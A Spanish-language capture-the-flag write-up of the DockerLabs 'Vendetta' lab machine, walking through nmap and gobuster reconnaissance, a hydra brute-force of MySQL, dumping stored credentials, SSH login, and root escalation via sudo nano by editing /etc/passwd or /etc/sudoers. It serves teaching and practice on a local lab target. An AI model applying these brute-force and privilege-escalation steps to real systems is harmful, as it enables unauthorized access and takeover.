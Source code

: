 ```yaml
---
title: Vendetta - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | Luisillo_o        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/3161e1b3-988e-4e4d-a354-fddfe1590da6)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `80` (HTTP)
- `22` (SSH)
- `3306` (Mysql)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p22,80,3306 -sCV 172.17.0.2 -oG targeted 
```
![image](https://github.com/user-attachments/assets/b1e44dfc-dde2-400d-bbe4-3ef4d940bf05)

# Exploración Web
Al navegar al puerto `80`, descubrimos un sitio web con el titulo de `V de vendetta`.

![image](https://github.com/user-attachments/assets/ed88e3f9-411d-475b-8246-d6eb2088d117)

Solo vemos dos imagenes en las cuales pone **"Visible pero a la Vez oculto,si sabes su nombre sabes todo"**

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/c3203ae4-dff2-4938-a70c-28346f56dc1d)

Probando varias metodos vemos que lo que destaca en negrita es la letra `V` asi que sabiendo que tenemos dos servicios lo consegui en myslq de la siguiente forma:

```bash
hydra -l V -P worlist.txt mysql://172.17.0.2 -t 4 
```
![image](https://github.com/user-attachments/assets/3ec24864-cedb-4769-a82b-7aec8eebf063)

Accedemos a la base de datos.
```
mysql -h 172.17.0.2 -u V -p
```
Ponemos la contarseña , pero parece que tenemos un error de **ERROR 2026 (HY000): TLS/SSL error: SSL is required, but the server does not support it**, por lo que le añadimos las siguientes lineas.
```bash
mysql -h 172.17.0.2 -u V -p --skip-ssl
```
Ahora que estamos dentro vamos a ver que contiene dentro.
![image](https://github.com/user-attachments/assets/235c661c-5d8d-4b30-a7d6-8d4d3023b288)

Lo primero que base de datos tiene:
```mysql
show databases;
```
![image](https://github.com/user-attachments/assets/92435461-d8d6-433e-a006-4441dd6cd149)

Entramos en la base de datos `BTN`:
```mysql
use BTN;
```
![image](https://github.com/user-attachments/assets/34533b8b-2a9d-44e7-b11d-f0fcf089ef5b)

Vemos las tablas que contiene:
```mysql
show tables;
```
![image](https://github.com/user-attachments/assets/6e1721e7-a5be-4d93-bea7-f5888ab06fce)

Ahora veremos que contiene la tabla usuarios:
```mysql
select * from users;
```
![image](https://github.com/user-attachments/assets/df32a20d-f226-49b7-bcf1-cdc5565b4826)

Tenemos un usuario y una contraseña:
```mysql
+----+----------+-----------+
| id | user     | password  |
+----+----------+-----------+
|  1 | Vendetta | OldBailey |
+----+----------+-----------+
```
Vamos a porbar si se puede desde `ssh`.
```bash
ssh Vendetta@172.17.0.2
```
![image](https://github.com/user-attachments/assets/9c4102cd-6ed1-452f-9a9c-3ddf80984b47)

Al ejecutar `sudo -l`, notamos que tiene permisos para ejecutar `nano` como `root`.Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

Para ello lo podemos de hacer de varias formas:

Modificando el /etc/passwd:

Para ello le quitaremos la `x` al usuario root, asi no nos pedira contraseña al acceder.

![image](https://github.com/user-attachments/assets/30e7c575-0d9e-472f-a46c-63a9aaa5363f)

Ya seriamos root.

![image](https://github.com/user-attachments/assets/b8d76667-2071-4206-b369-48d35097e60f)

Otra forma seria modifcando el /etc/sudores para darnos permiso de root al usuario vendetta.

![image](https://github.com/user-attachments/assets/fddefb38-9e29-4762-af72-b37fa64530c3)

![image](https://github.com/user-attachments/assets/c8f5a24f-94e9-470e-b7b3-e5247631f368)


Y la ultima seria generar una shell con nano.

![image](https://github.com/user-attachments/assets/cc540a1e-c90a-4fce-bed9-0b78294cd7f7)

